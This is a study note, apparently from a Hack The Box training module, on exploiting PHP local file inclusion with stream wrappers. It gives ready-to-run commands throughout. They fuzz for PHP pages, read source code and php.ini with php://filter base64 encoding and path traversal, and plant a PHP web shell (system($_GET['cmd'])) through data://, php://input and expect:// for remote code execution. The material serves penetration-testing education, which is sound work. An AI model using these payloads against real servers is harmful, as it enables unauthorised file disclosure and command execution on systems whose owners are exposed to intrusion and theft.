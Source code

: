 PHP Wrappers are used to access different I/O streams at the application level like standard input/output, file descriptors and memory streams.

# PHP Filters

## Input Filters

PHP filters are type of PHP wrappers which can be used to filter input with the filter we specify, we can access the PHP filter wrapper with `php://filter/`.

The main parameters we will use are the 'resource' parameter which can be used to specify the streams to apply the filters on and is required, and the 'read' parameter can apply different filters on the input resource.

There are four different types of filters available for use, which are [String Filters](https://www.php.net/manual/en/filters.string.php), [Conversion Filters](https://www.php.net/manual/en/filters.convert.php), [Compression Filters](https://www.php.net/manual/en/filters.compression.php), and [Encryption Filters](https://www.php.net/manual/en/filters.encryption.php), the filter that is useful for LFI attacks is the `convert.base64-encode` filter, under `Conversion Filters`.

## Fuzzing for PHP Files

Fuzzing for available PHP pages:
```shell-session
Wildland4958@htb[/htb]$ ffuf -w /opt/useful/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://<SERVER_IP>:<PORT>/FUZZ.php
```

We can scan for all response code even 403 and still be able to read the source code.

We can than search for other referenced PHP files.

## Standard PHP Inclusion

This technique is mostly useful when the function appends `.php` extension at the end, When we get a PHP file that is executed and rendered instead of showing as html, we can use the base64 PHP filter to get the contents of the source code as base64.

## Source Code Disclosure

Read the source code of config:
```url
php://filter/read=convert.base64-encode/resource=config
```

# PHP Wrappers

## Data

### Checking PHP Configuration

The data wrapper can be used to include external data only available to use if the (`allow_url_include`) setting is enabled in the PHP configurations.

The PHP configuration file location is (`/etc/php/X.Y/apache2/php.ini`) for Apache or at (`/etc/php/X.Y/fpm/php.ini`) for Nginx, x.y is the version (we can start from top to bottom) and use base64 filter, it's also adviced to use burp or cURL for this:
```shell-session
Wildland4958@htb[/htb]$ curl "http://<SERVER_IP>:<PORT>/index.php?language=php://filter/read=convert.base64-encode/resource=../../../../etc/php/<version>/apache2/php.ini"
```

Decode the configuration and find the `allow_rul_include` setting:
```shell-session
echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep allow_url_include
```

### Remote Code Execution

Base64 encode a basic PHP web shell:
```shell-session
Wildland4958@htb[/htb]$ echo '<?php system($_GET["cmd"]); ?>' | base64
```

Now URL encode the string and pass it to the data wrapper with `data://text/plain;base64,`.

We can use cURL for this:
```shell-session
curl -s 'http://<SERVER_IP>:<PORT>/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id' | grep uid
```

## Input

Like the data wrapper but we pass it as a post request data, so the vulnerable parameter must accept post for this attack to work.

cURL command:
```shell-session
Wildland4958@htb[/htb]$ curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://<SERVER_IP>:<PORT>/index.php?language=php://input&cmd=id" | grep uid
```

## Expect

This wrapper allows us to directly run commands trough URL streams, this is external wrapper so it needs to be manually installed on the back-end server.

We can check id it enabled in a similar check for `allow_url_include` but looking for the expect setting instead:
```shell-session
Wildland4958@htb[/htb]$ echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep expect
```

Using the expect module with cURL:
```shell-session
Wildland4958@htb[/htb]$ curl -s "http://<SERVER_IP>:<PORT>/index.php?language=expect://id"
```